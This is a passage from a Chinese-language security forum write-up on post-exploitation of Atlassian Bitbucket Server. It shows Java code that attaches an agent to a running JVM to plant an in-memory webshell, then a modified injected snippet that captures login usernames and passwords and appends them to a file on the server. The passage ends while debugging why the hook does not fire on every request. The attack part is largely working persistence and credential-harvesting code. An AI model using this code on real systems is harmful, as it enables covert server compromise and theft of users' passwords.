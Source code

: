if ("".equals(vmd.displayName()) &amp;&amp; !vm.getSystemProperties().containsKey("catalina.home")) {  
continue;  
}

if (null != vm) {  
vm.loadAgent(agentFile);  
System.out.println("insert success");  
vm.detach();  
return;  
}  
}  
}

System.out.println("No BitbucketServer Virtual Machine found.");  
} catch (Exception e) {  
e.printStackTrace();  
}  
}  
}

注入的结果如图：

![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-4b5d04fe5e6b0678ef0d228c800a793ec8020143.png)

0x06 扩大利用
=========

使用内存马除了能简单执行命令外，我们还希望可以扩大利用。搜集该服务器上可以利用的资源，一方面我们可以传统的寻找db/配置文件。另一方面，该系统可能被使用oath2、ldap等认证方式。我们可以通过记录密码的手段获取到更多的有效信息。

传统记录密码可能通过js+脚本引擎或使用跨域的请求实现，这里bitbucket用户无法修改js文件。想要记密码需要从服务端想办法。这时候内存马也派上了用场。

查看登录请求，对ZhouYu植入内存的代码稍加修改：

StringBuilder codeBuilder = new StringBuilder()  
.append("if($1.getParameter(\\"j\_username\\")!=null){").append("\\n")  
.append("String password = $1.getParameter(\\"j\_password\\");").append("\\n")  
.append("String username = $1.getParameter(\\"j\_username\\");").append("\\n")  
.append("String ret=username+\\":\\"+password+\\"\\\\n\\";").append("\\n")  
.append("byte\[\] b = ret.getBytes();").append("\\n")  
.append("java.io.File newTextFile = new java.io.File(\\"res.txt\\");").append("\\n")  
.append("java.io.FileOutputStream fw = new java.io.FileOutputStream(newTextFile,true);").append("\\n")  
.append("fw.write(b);").append("\\n")  
.append("fw.close();").append("\\n")  
.append("}").append("\\n")  
;

再次编译并植入，发现虽然显示注入成功但并没有记录到密码。这里当时推测有几种可能性：

1. 植入的代码有问题
2. 代码没有被执行

针对问题1，笔者修改了记录的字段为password，并且将获取到的参数打印在页面中，发现成功记录password参数的值。排除代码的问题。 针对问题2，笔者发现植入ZhouYu代码后，向login发送cmd=id并不会执行命令，也就是说我们植入的代码并没有对所有web请求生效。
